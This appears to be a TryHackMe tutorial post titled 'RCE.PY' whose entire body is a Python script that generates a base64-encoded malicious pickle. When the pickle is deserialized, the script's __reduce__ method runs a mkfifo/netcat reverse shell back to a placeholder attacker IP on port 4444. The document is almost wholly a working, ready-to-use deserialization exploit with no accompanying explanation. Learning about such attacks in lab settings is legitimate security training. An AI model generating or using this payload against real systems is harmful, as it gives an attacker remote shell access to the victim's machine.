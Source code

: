 ```yaml
---
title: RCE.PY by Ben (CMNatic)
author: Tw00t
date: 2021-01-03 00:00:00 +0000
categories: [tryhackme, Tutorial]
tags: [tryhackme python script]
toc: false

---
```

import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
